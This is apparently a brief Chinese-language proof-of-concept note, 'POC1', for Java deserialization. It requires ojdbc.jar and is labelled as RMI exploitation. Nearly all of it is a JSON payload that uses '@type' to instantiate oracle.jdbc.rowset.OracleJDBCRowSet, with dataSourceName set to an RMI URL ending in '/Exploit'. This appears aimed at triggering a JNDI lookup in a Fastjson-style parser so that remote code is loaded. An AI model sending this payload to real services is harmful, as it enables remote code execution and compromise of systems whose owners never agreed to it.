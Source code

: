 # POC1

条件：ojdbc.jar
作用：RMI利用

```json
{
	"@type": "java.lang.AutoCloseable",
	"@type": "oracle.jdbc.rowset.OracleJDBCRowSet",
	"dataSourceName": "rmi://127.0.0.1:1099/Exploit",
	"command": "111"
}
```
